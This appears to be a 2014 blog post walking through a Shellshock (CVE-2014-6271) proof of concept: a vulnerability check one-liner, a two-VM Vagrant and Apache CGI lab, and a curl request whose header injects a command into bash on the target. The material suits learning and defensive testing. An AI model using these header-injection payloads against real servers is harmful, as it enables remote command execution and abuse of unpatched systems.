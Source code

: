 ```yaml
---
author: andrei
comments: true
date: 2014-09-25 22:15:29+00:00
layout: post
slug: test-shellshock-vulnerability
title: Shellshock proof of concept
excerpt: "Shellshock proof of concept"
categories:
- hack
- linux
---
```

{% include _toc.html %}

The vulnerability that was found on linux/mac systems affecting Bash: ShellShock. It looks like this is bigger than Heartbleed! It's been out there since 1993 and it will be very hard to get rid of it all over. In this post I will present how to check if your server is vulnerable. Also i am creating  a small setup to check what the bug can do, so buckle up!


<div style="text-align:center" markdown="1">
![shellshock](/images/shellshock-300x168.jpg)
</div>




**Shellshock** is newly discovered vulnerability in software that's in computer systems we use everyday. It's kind of like Heartbleed, the Open/SSL bug that scared everyone senseless a few months ago and remains unpatched on thousands of systems. According to some experts, however, Shellshock could be way worse, and it's been around for decades. Shellshock affect bash, if exploited successfully an attacker could take control over the an unpatched linux system.

## How does it work?

The short story : Linux, like most of the operating systems use environment variable. Generally you can assign values to a environment variable, but also function definitions. The problem is that after defining the function, Bash continues to process shell commands resulting in a code injection attack.

## How to check if a server is vulnerable?

{% highlight bash %}
env x='() { :;}; echo vulnerable' bash -c /bin/true
{% endhighlight %}

Run the above command in a console. If you get "**vulnerable**" as output, that means that the server is exploitable.If the server is patched the following error message will be shown:
**bash: warning: x: ignoring function definition attempt**
** bash: error importing function definition for `x'**

## Set up the lab
	
  * provision 2 virtual machines


I have set up 2 Centos 5 VMs for this using VirtualBox and Vagrant. Below you can see my Vagrant config file:
{% highlight bash %}
vi Vagrantfile
VAGRANTFILE_API_VERSION = "2"
Vagrant.configure(VAGRANTFILE_API_VERSION) do |config|
config.vm.define "vm1" do |vm1|
vm1.vm.box = "centos5"
vm1.vm.hostname = "vm1"
vm1.vm.network "public_network"
end
config.vm.define "vm2" do |vm2|
vm2.vm.box = "centos5"
vm2.vm.hostname = "vm2"
vm2.vm.network "public_network"
end
config.vm.provider "virtualbox" do |vb|
vb.customize ["modifyvm", :id, "--memory", "512"]
end
end

vagrant up

vagrant ssh vm1
{% endhighlight %}

After running "vagrant up" you should have 2 VMs running with the following ips: vm1 192.168.1.149, vm2 192.168.1.150
The first VM will be the vulnerable server, and will be attacked from Vm2

	
  * Install apache and php-cgi on VM1


{% highlight bash %}

VM1# yum -y install httpd php-cgi

{% endhighlight %}

	
  * Configure apache on VM1. Add the following virtual host definition in your config file and start up apache


{% highlight bash %}

VM1# vi /etc/httpd/conf/httpd.conf

.........
ServerName VM1
DocumentRoot /var/www/html
ScriptAlias /cgi-bin/ "/var/www/cgi-bin/"
<Directory "/var/www/html">
Options +Indexes FollowSymLinks +ExecCGI
AddHandler php5-fastcgi .php
Action php5-fastcgi /cgi-bin/php.fastcgi
AllowOverride All
Order allow,deny
Allow from All
;
;

VM1# /etc/init.d/httpd start

{% endhighlight %}

After starting up Apache, make sure your server is not patched, so it has a vulnerable version of Bash. You can find a list with the vulnerable versions here: [CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) . Also you can try running the command posted at the beginning of this post.
Make sure you have the following folder created on VM1: /var/www/cgi-bin/ and set it's permissions to 755. Also create a small bash script named test.cgi and set permissions to it.

{% highlight bash %}

VM1# vi /var/www/cgi-bin/test.cgi

...

#!/bin/bash
echo
echo "test"

...

VM1# chmod 755 /var/www/cgi-bin/ -R

{% endhighlight %}



	
  * Start the attack from VM2


{% highlight bash %}

vagrant ssh vm2

VM2# curl --header "X: () { :; }; /bin/ping www.google.com" 192.168.1.159/cgi-bin/test.cgi

{% endhighlight %}

You can now check all icmp packets on your VM1. You will see lots of ping requests going out of VM1 to Google. Imagine this type of attack running on a larger scale, it would be a very efficient of DDOS attack.

{% highlight bash %}

VM1# tcpdump -i eth0 host 192.168.1.149 and icmp

{% endhighlight %}


## So what did we do ?


We send a simple /GET request to a apache cgi server and we have set a header value to a function definition and a bash command.  Of course you can run the attack  from a regular browser using a proxy (burp, fiddler,..) not necessarily from the command line. You just need to set a header to that value and the result will be the same.
As it turns out DHCP servers are also vulnerable to this bug. I'm not going to present that , but you can see how simple that can be done here: [https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/)







